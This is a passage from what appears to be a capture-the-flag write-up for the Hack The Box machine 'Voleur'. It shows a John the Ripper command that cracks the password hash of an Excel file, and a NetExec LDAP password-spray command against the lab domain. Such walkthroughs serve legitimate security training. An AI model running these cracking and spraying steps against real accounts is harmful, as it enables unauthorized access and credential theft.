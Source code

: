 Running JTR to crack the hash

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt accessreview.hash
```

![image.png](/assets/images/Voleur_HTB/image%2013.png)

Opening the Access_review.xlsx with the above password, displays the following data.

![image.png](/assets/images/Voleur_HTB/image%2014.png)

Added all the potential passwords to the passwords.txt file.

Now performing a password spray attack with usernames.txt and the potential passwords found.

```bash
nxc ldap voleur.htb -u usernames.txt -p passwords.txt -k --continue-on-success
```

